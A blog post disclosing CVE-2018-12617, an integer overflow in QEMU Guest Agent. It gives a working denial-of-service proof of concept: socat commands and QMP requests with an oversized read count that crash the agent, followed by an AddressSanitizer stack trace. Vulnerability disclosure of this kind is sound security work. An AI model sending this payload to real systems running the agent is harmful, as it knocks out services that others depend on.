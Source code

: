 ```yaml
---
layout: post
title: "[CVE-2018-12617] QEMU Guest Agent Integer Overflow"
date: 2018-06-07
categories:
    - blog
keywords: "qemu, qemu-ga, dos, denial of service"
---
```


QEMU Guest Agent 2.12.50 and earlier has an integer overflow causing a g_malloc0() call to trigger a segfault() call when trying to allocate a large memory chunk. The vulnerability can be exploited by sending a specific QMP command to the agent via the listening socket.

1st, execute the guest-agent using the following command:

```shell
$ qemu-ga -m unix-listen -p /tmp/qga.sock -t /tmp
```

2nd, on the other console, connect to the UNIX socket using socat:

```shell
$ socat unix-connect:/tmp/qga.sock -
```

3rd, enter the following QMP command:

```shell
{"execute":"guest-file-open", "arguments":{"path":"/tmp/poc","mode":"w+”}}
{"return": 1000}
{"execute":"guest-file-read", "arguments":{"handle":1000,"count":4294967295}}
```

The guest-file-read must be specified with the correct handle value (file descriptor). Different files will have different handle value.

```
#0 0x5598eed0a1af in calloc /home/user/llvm/projects/compiler-rt/lib/asan/asan_malloc_linux.cc:107
#1 0x7f2ce5d7d770 in g_malloc0 (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4f770)
#2 0x5598eed84996 in qmp_marshal_guest_file_read /home/user/qemu/qga/qapi-generated/qga-qapi-commands.c:425:14
#3 0x5598eeda4fcf in do_qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:119:5
#4 0x5598eeda4fcf in qmp_dispatch /home/user/qemu/qapi/qmp-dispatch.c:168
#5 0x5598eed59bff in process_command /home/user/qemu/qga/main.c:589:11
#6 0x5598eed59bff in process_event /home/user/qemu/qga/main.c:626
#7 0x5598eedb5f13 in json_message_process_token /home/user/qemu/qobject/json-streamer.c:105:5
#8 0x5598eee25d9b in json_lexer_feed_char /home/user/qemu/qobject/json-lexer.c:323:13
#9 0x5598eee25333 in json_lexer_feed /home/user/qemu/qobject/json-lexer.c:373:15
#10 0x5598eed5a95e in channel_event_cb /home/user/qemu/qga/main.c:659:9
#11 0x5598eed710c1 in ga_channel_client_event /home/user/qemu/qga/channel-posix.c:92:23
#12 0x7f2ce5d78049 in g_main_context_dispatch (/lib/x86_64-linux-gnu/libglib-2.0.so.0+0x4a049)
```
---
References:
1. https://lists.gnu.org/archive/html/qemu-devel/2018-06/msg03385.html
